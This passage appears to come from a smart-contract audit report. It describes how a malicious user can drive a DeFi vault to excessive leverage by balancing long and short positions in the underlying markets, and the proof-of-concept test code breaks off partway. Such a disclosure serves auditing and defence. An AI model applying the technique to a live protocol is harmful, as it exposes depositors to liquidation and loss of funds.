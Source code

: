 This scenario will keep high vault leverage only for a short time until next oracle version, because `claim` will reduce position back to $4K, however this position reduction can also be avoided, for example, by opening/closing positions to make `long-short = maker` or `short-long = maker` in the underlying market(s), thus disallowing the vault to reduce its maker position and keeping the high leverage.

## Impact

Malicious user can put the vault at very high leverage, breaking important protocol invariant (leverage not exceeding target market leverage) and exposing the users to much higher potential funds loss / risk from the price movement due to high leverage and very high risk of vault liquidation, causing additional loss of funds from liquidation penalties and position re-opening fees.

## Proof of concept

The scenario above is demonstrated in the test, add this to `Vault.test.ts`:
```ts
it('increase vault leverage', async () => {
    console.log("start");

    async function setOracle(latestTime: BigNumber, currentTime: BigNumber) {
    await setOracleEth(latestTime, currentTime)
    await setOracleBtc(latestTime, currentTime)
    }

    async function setOracleEth(latestTime: BigNumber, currentTime: BigNumber) {
    const [, currentPrice] = await oracle.latest()
    const newVersion = {
        timestamp: latestTime,
        price: currentPrice,
        valid: true,
    }
    oracle.status.returns([newVersion, currentTime])
    oracle.request.whenCalledWith(user.address).returns()
    oracle.latest.returns(newVersion)
    oracle.current.returns(currentTime)
    oracle.at.whenCalledWith(newVersion.timestamp).returns(newVersion)
    }

    async function setOracleBtc(latestTime: BigNumber, currentTime: BigNumber) {
    const [, currentPrice] = await btcOracle.latest()
    const newVersion = {
        timestamp: latestTime,
        price: currentPrice,
        valid: true,
    }
    btcOracle.status.returns([newVersion, currentTime])
    btcOracle.request.whenCalledWith(user.address).returns()
    btcOracle.latest.returns(newVersion)
    btcOracle.current.returns(currentTime)
    btcOracle.at.whenCalledWith(newVersion.timestamp).returns(newVersion)
    }

    async function logLeverage() {
    // vault collateral
    var vaultCollateralEth = (await market.locals(vault.address)).collateral
    var vaultCollateralBtc = (await btcMarket.locals(vault.address)).collateral
    var vaultCollateral = vaultCollateralEth.add(vaultCollateralBtc)

    // vault position
    var vaultPosEth = (await market.positions(vault.address)).maker;
    var ethPrice = (await oracle.latest()).price;
    var vaultPosEthUsd = vaultPosEth.mul(ethPrice);
```